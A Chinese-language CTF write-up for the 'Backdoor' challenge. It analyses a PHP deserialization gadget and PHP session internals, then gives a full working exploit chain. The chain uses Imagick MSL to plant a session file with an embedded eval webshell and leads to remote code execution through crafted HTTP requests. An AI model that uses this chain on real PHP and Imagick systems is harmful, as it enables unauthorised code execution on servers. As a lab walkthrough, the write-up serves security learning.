


### Backdoor

首页给了源码

```php
<?php
error_reporting(E_ERROR);
class backdoor {
    public $path = null;
    public $argv = null;
    public $class = "stdclass";
    public $do_exec_func = true;
    
    public function __sleep() {
        if (file_exists($this->path)) {
            return include $this->path;
        } else {
            throw new Exception("__sleep failed...");
        }
    }

    public function __wakeup() {
            if (
                $this->do_exec_func && 
                in_array($this->class, get_defined_functions()["internal"])
            ) {
                    call_user_func($this->class);
            } else {
                $argv = $this->argv;
                $class = $this->class;
                
                new $class($argv); // 没有echo
            }
    }
}


$cmd = $_REQUEST['cmd'];
$data = $_REQUEST['data'];

switch ($cmd) {
    case 'unserialze':
        unserialize($data);
        break;
    
    case 'rm':
        system("rm -rf /tmp");
        break;
    
    default:
        highlight_file(__FILE__);
        break;
}
```

阅读代码，存在两个魔法函数：

- `__sleep()`，执行serialize()时，先会调用这个函数。这里可以实现任意文件包含。

- `__wakeup()`，执行unserialize()时，先会调用这个函数。这里可以执行一次无参函数结构。

对于`__sleep__`来说，如果我们能够包含临时文件或者session即可rce。所以我们需要考虑如何触发`__sleep__`函数，审计php内核源码，跟一下序列化的流程：

```c
PHP_FUNCTION(serialize)
{
	zval *struc;	// 定义一个zval类型的结构体指针
	php_serialize_data_t var_hash;   // 定义一个hash变量
	smart_str buf = {0}; //初始化一个柔性数组，用于存储序列化完成后的字符串

	ZEND_PARSE_PARAMETERS_START(1, 1)
		Z_PARAM_ZVAL(struc)
	ZEND_PARSE_PARAMETERS_END(); //检测serialize参数个数

	PHP_VAR_SERIALIZE_INIT(var_hash);
	php_var_serialize(&buf, struc, &var_hash); //主处理函数
	PHP_VAR_SERIALIZE_DESTROY(var_hash);

	if (EG(exception)) {
		smart_str_free(&buf);
		RETURN_FALSE;
	}

	if (buf.s) {
		RETURN_NEW_STR(buf.s);
	} else {
		RETURN_NULL();
	}
}
```

主处理函数为`php_var_serialize`，全局搜索

```c
PS_SERIALIZER_ENCODE_FUNC(php) /* {{{ */
{
	smart_str buf = {0};
	php_serialize_data_t var_hash;
	PS_ENCODE_VARS;

	PHP_VAR_SERIALIZE_INIT(var_hash);

	PS_ENCODE_LOOP(
		smart_str_appendl(&buf, ZSTR_VAL(key), ZSTR_LEN(key));
		if (memchr(ZSTR_VAL(key), PS_DELIMITER, ZSTR_LEN(key))) {
			PHP_VAR_SERIALIZE_DESTROY(var_hash);
			smart_str_free(&buf);
			return NULL;
		}
		smart_str_appendc(&buf, PS_DELIMITER);
		php_var_serialize(&buf, struc, &var_hash);
	);

	smart_str_0(&buf);

	PHP_VAR_SERIALIZE_DESTROY(var_hash);
	return buf.s;
}
```

在session中存在序列化操作，而再跟进一下我们可以发现一个函数`PHP_FUNCTION(session_start)`，他是`session_start`的底层实现，用于开启或者重用现有的会话。在初始化过程中将读取名为PHPSESSID的cookie，若读取到，则创建`$_SESSION`变量，并从相应的目录中读取sess_PHPSESSID（默认是这种命名方式）文件，将字符装在入$_SESSION变量中。当PHP停止运行时，它会自动读取$SESSION中的内容，并将其进行序列化，然后发送给会话保存管理器来进行保存。

简单看一下：



在`PHP_FUNCTION(session_start)`最后调用`php_session_flush`

```c
PHPAPI int php_session_flush(int write) /* {{{ */
{
	if (PS(session_status) == php_session_active) {
		php_session_save_current_state(write);
		PS(session_status) = php_session_none;
		return SUCCESS;
	}
	return FAILURE;
}
```

跟进`php_session_save_current_state`

```c
static void php_session_save_current_state(int write) /* {{{ */
{
	int ret = FAILURE;

	if (write) {
		IF_SESSION_VARS() {
			if (PS(mod_data) || PS(mod_user_implemented)) {
				zend_string *val;

				val = php_session_encode();
```

跟进`php_session_encode`

```c
static zend_string *php_session_encode(void) /* {{{ */
{
	IF_SESSION_VARS() {
		if (!PS(serializer)) {
			php_error_docref(NULL, E_WARNING, "Unknown session.serialize_handler. Failed to encode session object");
			return NULL;
		}
		return PS(serializer)->encode();
	} else {
		php_error_docref(NULL, E_WARNING, "Cannot encode non-existent session");
	}
	return NULL;
}
```

这里根据设置的`session.serialize_handler`来进行序列化数据。那么目前的思路就有了，我们能够通过回调函数调用`session_start`，这里会触发序列化操作，如果我们能够控制session内容，那么就可以触发`__sleep`函数进行文件包含达成rce。接下来的目标则是想办法控制session内容。

对于`__wakeup__`来说，我们可以执行一次php内部类，那么我们可以利用此来探测信息

构造反序列化payload查看phpinfo

```php
<?php
class backdoor {
    public $path = null;
    public $argv = null;
    public $class = "phpinfo";
    public $do_exec_func = true;

}

$data = new backdoor();
echo serialize($data);
```



发现imagick拓展，想起之前看过的文章[exploiting-arbitrary-object-instantiations](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)，文章讲述了针对以下结构的php代码的一种攻击方法

```php
new $_GET['a']($_GET['b']);
```

再查看一下`__wakeup`方法

```php
 public function __wakeup() {
            if (
                $this->do_exec_func && 
                in_array($this->class, get_defined_functions()["internal"])
            ) {
                    call_user_func($this->class);
            } else {
                $argv = $this->argv;
                $class = $this->class;
                
                new $class($argv); 
            }
    }
```

一方面题目给了同类型代码，另一方面题目限制了通过内置类的利用，显然我们需要利用magick的特性进行攻击

`imagick`类在初始化时可以执行`Magick Scripting Language`。那么考虑用其特性，在临时文件中写入`Magick Scripting Language`，然后在`imagick`类初始化的时候执行临时文件写入`session`文件。再触发`__sleep`包含`session`文件以`RCE`。

写入文件时须注意以下几点：

1. 因为`imagick`对文件格式解析较严，需要写入的文件必须是其支持的图片格式，如jpg、gif、ico等。如果直接插入`session`数据，会导致解析图片错误，导致文件无法写入。
2. `php`对`session`的格式解析也较为严格。数据尾不可以存在脏数据，否则`session`解析错误会无法触发`__sleep`。

所以我们需要找到一个容许在末尾添加脏数据，且脏数据不会被`imagick`抹去的图片格式。`imagick`共支持几十种图片格式，

题目提示可以使用`ppm`格式，其不像其他图片格式存在`crc`校验或者在文件末尾存在`magic`头。结构十分简单，可以进行利用。

首先利用网站提供的功能，删除`/tmp`下的文件。

```perl
http://127.0.0.1:9999/?cmd=rm
```

接下来发包写入session

构造反序列化数据

```php
<?php
class backdoor {
    public $path = null;
    public $argv = "vid:msl:/tmp/php*";
    public $class = "imagick";
    public $do_exec_func = false;

}

$data = new backdoor();
echo serialize($data);
```

发包

```perl
POST /?data=O%3A8%3A%22backdoor%22%3A4%3A%7Bs%3A4%3A%22path%22%3BN%3Bs%3A4%3A%22argv%22%3Bs%3A17%3A%22vid%3Amsl%3A%2Ftmp%2Fphp*%22%3Bs%3A5%3A%22class%22%3Bs%3A7%3A%22imagick%22%3Bs%3A12%3A%22do_exec_func%22%3Bb%3A0%3B%7D&cmd=unserialze HTTP/1.1
Host: 127.0.0.1:9999
Accept: */*
Content-Length: 703
Content-Type: multipart/form-data; boundary=------------------------c32aaddf3d8fd979

--------------------------c32aaddf3d8fd979
Content-Disposition: form-data; name="swarm"; filename="swarm.msl"
Content-Type: application/octet-stream

<?xml version="1.0" encoding="UTF-8"?>
<image>
 <read filename="inline:data://image/x-portable-anymap;base64,UDYKOSA5CjI1NQoAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADw/cGhwIGV2YWwoJF9HRVRbMV0pOz8+fE86ODoiYmFja2Rvb3IiOjI6e3M6NDoicGF0aCI7czoxNDoiL3RtcC9zZXNzX2Fma2wiO3M6MTI6ImRvX2V4ZWNfZnVuYyI7YjowO30=" />
 <write filename="/tmp/sess_snakin" />
</image>
--------------------------c32aaddf3d8fd979--
```

随后使用执行一次任意无参函数的功能，触发`session_start`函数，并设置`cookie`为`PHPSESSID=snakin`，即可文件包含`session`，成功`RCE`。`flag`执行根目录的`readflag`即可。

```perl
GET /?data=O%3A8%3A%22backdoor%22%3A2%3A%7Bs%3A5%3A%22class%22%3Bs%3A13%3A%22session_start%22%3Bs%3A12%3A%22do_exec_func%22%3Bb%3A1%3B%7D&cmd=unserialze&1=system('/readflag'); HTTP/1.1
Host: 127.0.0.1:9999
Accept: */*
Cookie: PHPSESSID=snakin
```

参考：

https://www.cnblogs.com/ohmygirl/p/internal-5.html

https://mp.weixin.qq.com/s/RL8_kDoHcZoED1G_BBxlWw

https://github.com/AFKL-CUIT/CTF-Challenges/blob/master/CISCN/2022/backdoor/writup/writup.md


